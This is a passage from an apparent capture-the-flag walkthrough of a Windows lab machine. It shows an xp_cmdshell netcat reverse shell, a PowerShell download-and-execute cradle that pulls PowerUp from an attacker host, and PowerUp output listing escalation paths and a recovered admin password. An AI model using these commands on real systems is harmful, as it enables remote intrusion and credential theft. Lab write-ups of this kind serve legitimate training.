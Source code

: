 ```cmd
smbserver.py -smb2support a .
xp_cmdshell \\10.10.14.26\a\nc.exe -e cmd.exe 10.10.14.26 5555
```


## PrivEsc

From here it is fairly simple to run PowerUp and gain the root password.

```cmd
START /B "" powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.26/PowerUp.ps1')
```

Results:

```cmd
Privilege   : SeImpersonatePrivilege
Attributes  : SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
TokenHandle : 2460
ProcessId   : 2112
Name        : 2112
Check       : Process Token Privileges

ServiceName   : UsoSvc
Path          : C:\Windows\system32\svchost.exe -k netsvcs -p
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'UsoSvc'
CanRestart    : True
Name          : UsoSvc
Check         : Modifiable Services

ModifiablePath    : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
IdentityReference : QUERIER\mssql-svc
Permissions       : {WriteOwner, Delete, WriteAttributes, Synchronize...}
%PATH%            : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
Name              : C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps
Check             : %PATH% .dll Hijacks
AbuseFunction     : Write-HijackDll -DllPath 'C:\Users\mssql-svc\AppData\Local\Microsoft\WindowsApps\wlbsctrl.dll'

UnattendPath : C:\Windows\Panther\Unattend.xml
Name         : C:\Windows\Panther\Unattend.xml
Check        : Unattended Install Files

Changed   : {2019-01-28 23:12:48}
UserNames : {Administrator}
NewName   : [BLANK]
Passwords : {MyUnclesAreMarioAndLuigi!!1!}
File      : C:\ProgramData\Microsoft\Group
            Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml
```

